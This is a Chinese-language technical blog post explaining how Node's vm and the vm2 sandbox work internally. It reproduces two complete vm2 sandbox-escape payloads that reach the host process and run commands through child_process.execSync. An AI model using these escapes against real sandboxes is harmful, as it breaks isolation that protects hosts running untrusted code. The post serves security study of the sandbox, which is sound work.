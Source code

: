 # nodevm的运行流程

vm2其实是在vm的基础上进行二次开发所形成的一个沙箱运行环境，所以在内部本身的实现还是调用的是vm的机制。

要了解这部分知识必须先了解proxy:https://es6.ruanyifeng.com/?search=weakmap&x=0&y=0#docs/proxy

## 0x01 vm api

![image-20210920071650251](https://img.dem0dem0.top/images/image-20210920071650251.png)

对应的别人的代码就是

```javascript
const vm = require('vm');
const context = {
  animal: 'cat',
  count: 2
};//运行环境的上下文
const script = new vm.Script('count += 1; name = "kitty";'); //编译code
vm.createContext(context); // 创建一个上下文隔离对象
for (let i = 0; i < 10; ++i) {
  script.runInContext(context); // 在指定的下文里执行code并返回其结果 不用套for循环的
}
console.log(context);
```

或者使用vm自己创建的上下文环境

```javascript
const vm = require("vm");
console.log(vm.runInNewContext("let a = 2;a")); //2
```

其实在vm的逃逸中之所以会出现问题，也是因为对于外部的__constructor__和prototype的过滤不严格。

## 0x02 vm2 api

vm2的包的关键文档就只有以下四个部分

![image-20210920072607352](https://img.dem0dem0.top/images/image-20210920072607352.png)

包括了cli.js和contextify.js和main.js和sandbox.js四个文件

cli.js => 实现vm2的命令行调用

contextify.js => 处理了上下文 避免沙盒逃逸问题的出现； VMError Contextify 对global的buffer进行了处理

main.js => vm2执行的入口，导出了 `NodeVM`, `VM` 这两个沙箱环境，还有一个 `VMScript` 实际上是封装了 `vm.Script`

sandbox.js => hook了global的属性

## 0x03 vm2 运行原理

当我们创建一个VM的对象的时候，vm2内部引入了 `contextify.js`，并且针对上下文 `context` 进行了封装，最后调用 `script.runInContext(context)` ，可以看到，vm2最核心的操作就在于针对`context`的封装。

![image-20210920091349963](https://img.dem0dem0.top/images/image-20210920091349963.png)

分析一下这一行的代码的调用栈

![image-20210920091954260](https://img.dem0dem0.top/images/image-20210920091954260.png)

大概长这个样子，我们从最底层开始分析。

他新建了一个Proxy对下个，并且使用Object.assign来进行属性的拷贝

![image-20210920092223195](https://img.dem0dem0.top/images/image-20210920092223195.png)

我们会发现这样一个好玩的事情。这里就会将deeptrap和traps来进行合并，从而获得一个完整的属性，前面做的所有事情都是为了判断对象的类型，从而加上不同的traps。从而获得一个全新的proxy。

所以这样的话，在vm2的沙箱中运行的时候，访问对象的这些方法都会被沙箱本身拦截，从而获得不一样的体验。

## 0x04 代码分析跟踪

```
const {VM,VMScript} = require('VM2');
const fs = require('fs');
const file = `${__dirname}\\sandbox.js`;
const script = new VMScript(fs.readFileSync(file),file);
console.log((new VM()).run(script));


sandbox.js
let a = Buffer.from(""); //访问Buffer的from属性并调用
a.i = () => {}; //给对象添加属性
console.log(a.i); //访问对象的属性

```

![image-20210920094940936](https://img.dem0dem0.top/images/image-20210920094940936.png)

首先是buffer的from方法就被代理的get方法拦截。

![image-20210920100617683](https://img.dem0dem0.top/images/image-20210920100617683.png)

对他的调用 又被拦截

![image-20210920100736303](https://img.dem0dem0.top/images/image-20210920100736303.png)

设置方法也被拦截

![image-20210920100759957](https://img.dem0dem0.top/images/image-20210920100759957.png)

![image-20210920104931151](https://img.dem0dem0.top/images/image-20210920104931151.png)

我们看到，如果我们访问这个函数代理对象的 `constructor` 属性，返回的是 `host.Function` !

但是作者考虑到了这个因素的影响，所以我们在处理的时候，会调用他的get方法，在其中进行了处理，但是这里也是又问题的地方。

## 0x05 vm2逃逸分析

```
var handler = {
    get () {
     console.log("get");
    }
  };


  var target = {};

  var proxy = new Proxy(target, handler);

  Object.prototype.has = function(t, k){
    console.log("has");
  }

  proxy.a; //触发get
  "" in proxy; //触发has，这个has是在原型链上定义的w
```

我们很容易发现第一个get方法的出发就是proxy的正常使用，但是第二个方法，我们发现继承了Object的has方法。

然后我们来看一下,本身vm2的逃逸代码

```javascript
"use strict";

var process;

Object.prototype.has = function (t, k) {
    process = t.constructor("return process")();
};

"" in Buffer.from;
process.mainModule.require("child_process").execSync("whoami").toString()
```

我们知道在vm2中，作者并没有一开始就加上has方法，所以我们可以自己加上。这样在执行Buffer.from的时候就会触发has方法。

就会去执行我们定义好的has方法，由于 `proxy` 的机制，参数 `t` 是 `function Buffer.from` ，这个`function是在外部`的，其上下文是 nodejs 的global下，所以访问其 `constructor` 属性就获取到了外部的 `Function`，从而拿到外部的 `process`

在新版本中，作者增加了has方法，这样就不会去原型链上面寻找该方法，所以这个方法在新版本已经没有用了。

## 0x06 逃逸分析2

```
"use strict";
const {VM} = require('vm2');
const untrusted = `var process;
try{
    Object.defineProperty(Buffer.from(""), "", {get set(){
        Object.defineProperty(Object.prototype,"get",{get(){
            throw x=>x.constructor("return process")();
        }});
        return ()=>{};
    }});
}catch(e){
    process = e(()=>{});
}
process.mainModule.require("child_process").execSync("id").toString();`;
try{
    console.log(new VM().run(untrusted));
}catch(x){
    console.log(x);
}
```

当我们在a上定义新属性的时候，被代理的 `defineProperty` 拦截.检测传入的 `descriptor` 上是否设置了 get和set，如果是，调用外部的 `host.Object.defineProperty` 去实现设置对象属性的。

但是在执行 `descriptor.get` 的时候，由于 `nodejs`是异步的，此时已经执行了。所以他就会去执行我们设置的抛出异常的错误

![image-20210920115934701](https://img.dem0dem0.top/images/image-20210920115934701.png)

![image-20210920120027820](https://img.dem0dem0.top/images/image-20210920120027820.png)

![image-20210920120042258](https://img.dem0dem0.top/images/image-20210920120042258.png)

然后就逃出沙箱了


